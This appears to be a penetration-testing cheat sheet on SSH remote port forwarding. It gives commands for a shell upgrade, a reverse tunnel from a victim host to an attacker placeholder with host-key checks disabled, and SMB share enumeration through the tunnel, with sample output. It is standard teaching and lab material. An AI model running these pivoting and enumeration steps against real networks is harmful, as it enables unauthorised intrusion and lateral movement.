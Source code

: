 ## Remote SSH Port Forwarding

Scenario

* Attacker has SSH access on victims machine
* Attacker forwards remote port due **firewall restriction**
* Attacker establish a reverse tunnel from victim to attacker to attack a backend server
* From 127.0.0.1:4545 (attacker)
* To 10.4.175.215:5432 (backend server)

```bash
sudo systemctl start ssh
```

Victim

* -v verbose
* -N don't open shell
* -R remote port forwarding (reverse)
* -o "UserKnownHostsFile=/dev/null" ignore hosts file
* -o "StrictHostKeyChecking=no" ignore host key

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
ssh -N -R 127.0.0.1:2345:10.4.175.215:5432 kali@ATTACKER -v -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"
```

Attack

* -L list SMB shares
* -p port
* -U user
* --password pw

```bash
smbclient -p 2345 -L //127.0.0.1/ -U hr_admin --password=$PW

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Scripts         Disk      
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
```

## Dynamic SSH Remote Port Forwarding

Scenario

* Use proxychains to attack multiple ports via attackers port
* Requires a gcc compiler
* Download `https://github.com/rofl0r/proxychains-ng`
